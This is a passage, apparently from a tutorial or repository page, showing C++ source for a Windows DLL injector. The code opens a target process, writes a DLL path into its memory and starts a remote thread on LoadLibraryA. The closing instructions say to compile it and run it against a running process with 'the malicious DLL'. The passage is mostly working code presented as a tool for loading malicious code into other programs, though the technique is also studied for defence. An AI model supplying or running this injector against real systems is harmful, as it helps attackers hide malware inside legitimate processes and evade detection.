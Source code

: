 ```cpp
    }
}

int main(int argc, char *argv[]) {

    if (argc != 3) {
        printf("Cannot find require parameters\n");
        printf("Usage: dll-injector.exe <process name> <path to DLL>\n");
        exit(0);
    }

    char dllLibFullPath[256];

    LPCSTR processName = argv[1];
    LPCSTR dllLibName = argv[2];

    DWORD processId = getProcessId(processName);
    if (!processId) {
        exit(1);
    }

    if (!GetFullPathName(dllLibName, sizeof(dllLibFullPath), dllLibFullPath, NULL)) {
        exit(1);
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    if (hProcess == NULL) {
        exit(1);
    }

    LPVOID dllAllocatedMemory = VirtualAllocEx(hProcess, NULL, strlen(dllLibFullPath), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (dllAllocatedMemory == NULL) {
        exit(1);
    }

    if (!WriteProcessMemory(hProcess, dllAllocatedMemory, dllLibFullPath, strlen(dllLibFullPath) + 1, NULL)) {
        exit(1);
    }

    LPVOID loadLibrary = (LPVOID) GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

    HANDLE remoteThreadHandler = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE) loadLibrary, dllAllocatedMemory, 0, NULL);
    if (remoteThreadHandler == NULL) {
        exit(1);
    }

    CloseHandle(hProcess);

    return 0;
}
```

After you compile the code, all you need is to locate a running process, take a note of its name and supply it along with the malicious DLL

```
dll-injector.exe process-name malicious.dll
```
